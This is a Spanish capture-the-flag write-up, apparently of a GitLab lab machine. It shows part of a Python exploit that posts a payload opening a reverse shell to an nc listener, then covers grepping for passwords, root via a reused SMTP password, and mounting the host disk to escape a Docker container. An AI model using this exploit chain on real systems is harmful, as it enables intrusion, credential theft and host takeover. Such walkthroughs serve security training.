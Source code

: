 ```python
    session=requests.Session()
    headers = {'user-agent':'Moana Browser 1.0','Cookie':cookie,'Content-Type':'application/x-www-form-urlencoded','DNT':'1','Upgrade-Insecure-Requests':'1'}
    r=session.get(url+'/projects/new',headers=headers,allow_redirects=True)
    soup = BeautifulSoup(r.content,"lxml")
    nsid = soup.findAll('input', {"id": "project_namespace_id"})
    namespace_id=nsid[0]['value'];
    deb("Namespace ID: "+namespace_id)
    prgname=random_string(8)
    newpayload=create_payload(authenticity_token,prgname,namespace_id,localip,localport,username)
    newpayload=urllib.parse.urlencode(newpayload)
    deb("Payload encoded: "+newpayload)
    r=session.post(url+'/projects',newpayload,headers=headers,allow_redirects=False)
    os.system("nc -nvlp "+localport)

init(username,cookie,authenticity_token,localport,localip)
```

Lo lanzamos y nos devuelve una shell como el user `git` atraves del mismo exploit
Una vez dentro de la maquina victima nos ponemos a enumerar el sistema y vemos que estamos en un Docker(contenedor). 
Nos movemos a `/home/dude/` y ya podriamos visualizar la flag `Users.txt: e1e30b052b6ec06706........`

# Escalada de privilegios y acceso a los archivos de la Maquina Victima.

Procedemos a enumerar el sistema como siempre:
```bash
find / -perm -u=s type f 2>/dev/null
grep -r -i "password"
grep -r -i -E "password|key|databases|user"
```
Nos movemos a la ruta `/opt/backup` usamos el comando anterior `grep -r -i "password"`
y conseguimos sacar una password relacionada con el servicio SMTP `"wW59U!ZKMbG9+*#h"`
probamos la reutilizacion de credenciales y instentamos hacer un cambio al user root con la password encontrada. Funciona.

# Consiguiendo Acceso a la maquina Victima como Root

Una vez somos root en el Docker vemos con el comando 
```bash
$ df -l 
y vemos las particiones de la maquina(COMPLETAR)
```
Encontramos una particion que pesa como 12g y aparece referenciada a `/root_pass`
Porque no ? Vamos a porbar a movernos a la ruta `/mnt/` y crearnos un directorio para hacer uso de una mountura y montar el sistema de archivos en este directorio.
```bash
"root@gitlab:/# cd mnt    "
"root@gitlab:/mnt# mkdir qdmSto              "                                                                                                                                                                        
"root@gitlab:/mnt# mount /dev/sda2 qdmSto/  "                                                                                                                                                                         
"root@gitlab:/mnt# cd qdmSto/ "
"root@gitlab:/mnt/qdmSto# ls -la "                                                                                                                                                                                    
total 100                                                                                                                                                                                                           
```